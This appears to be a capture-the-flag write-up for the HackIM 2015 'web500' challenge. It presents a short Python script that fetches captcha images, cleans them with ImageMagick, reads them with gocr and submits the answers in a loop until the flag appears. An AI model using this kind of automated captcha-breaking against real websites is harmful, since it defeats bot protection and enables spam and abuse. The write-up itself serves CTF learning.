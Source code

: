 This "web" task was quite easy. It's more programming challenge than web challenge for me.

The description given was:
```
  Break the captcha
```

Ok let's do it :)

When you open [captcha.php](http://54.165.191.231/captcha.php) you get this:

![web500 captcha](http://saxx.swordarmor.fr/CTF/HACKIM_web500_captcha.png "web500 captcha")

Here is my python exploit
```python
#!/usr/bin/python
__author__ = "@_SaxX_"
import os, requests, commands, re

s = requests.session()
url = "http://54.165.191.231/"
s.get(url + "captcha.php")
while True:
	open('captcha.png', 'wb').write( s.get(url + "imagedemo.php").content )
	os.system('convert captcha.png -compress none -threshold 16% img.png')
	captcha = commands.getoutput("gocr -i img.png").strip()
	response = s.post(url + "verify.php", {'solution' : captcha}).text
	flag = re.findall('Score :(.*)', response)[0].rstrip()
	if not str(flag).isdigit():
		print "[+] Flag: %s" %flag
		break
	print "[%s] Sending Captcha=%s ... "%(flag, captcha)
```

And here the output once executed it to obtain the flag:

![web500 flag](http://saxx.swordarmor.fr/CTF/HACKIM_web500_flag1.png "web500 flag")
<br>
[...]
<br>
![web500 flag](http://saxx.swordarmor.fr/CTF/HACKIM_web500_flag2.png "web500 flag")

The flag to scored 500 points was **flag{H@CKIM_C@pTcha!09022015}**

Enjoy :)

